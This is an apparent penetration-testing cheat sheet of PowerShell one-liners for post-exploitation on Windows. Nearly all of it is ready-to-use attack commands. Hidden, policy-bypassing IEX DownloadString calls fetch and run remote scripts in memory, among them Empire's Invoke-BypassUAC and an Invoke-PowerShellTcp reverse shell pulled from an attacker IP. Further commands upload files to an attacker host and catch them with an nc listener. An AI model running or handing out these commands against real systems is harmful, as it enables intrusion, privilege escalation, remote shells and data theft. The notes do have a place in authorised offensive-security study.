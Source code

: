 ## Start up WebServer

## Run script in memory:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE')

#EXAMPLE
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'
```

# In PowerShell:
```ps
IEX((New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE'))
```

=========================================

# Download File:
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).DownloadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')

# In PowerShell:
(New-Object System.Net.WebClient).DownloadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')


=========================================

# Upload File:
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).UploadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')

# In PowerShell:
(New-Object System.Net.WebClient).UploadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')

---------------
# If you can't copy over SMB
## On Local Box
nc -lnvp 443 > Out.File
## On Windows Box
Invoke-RestMethod -Uri http://<LocalIPAddress>:<PORT>/<FILE> -Method Post -InFile <LocalFile>

=========================================

## Upgrade PSH to 64-bit shell
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.Webclient).DownloadString('http://192.168.119.187:80/Invoke-PowerShellTcp.ps1')

C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.Webclient).DownloadString('http://192.168.119.187:80/Invoke-PowerShellTcp.ps1')
